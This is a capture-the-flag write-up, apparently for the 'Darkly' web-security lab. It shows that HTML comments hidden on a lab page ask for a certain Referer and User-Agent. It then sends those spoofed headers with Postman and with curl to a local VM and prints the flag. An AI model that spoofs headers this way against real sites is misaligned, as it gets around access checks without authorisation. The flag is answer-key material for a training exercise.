

## to find breaches
- Go to Copyright page (http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f)
- And check the Elements inside *<section id="main class "wrapper">*

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```
- send the GET request to *"http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"*  via 
## 1.Postman
- **"User-Agent: ft_bornToSec"**
- **"Refer: https://www.nsa.gov/"**

- flag is: ```f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188```

## 2.curl
```
curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" 
```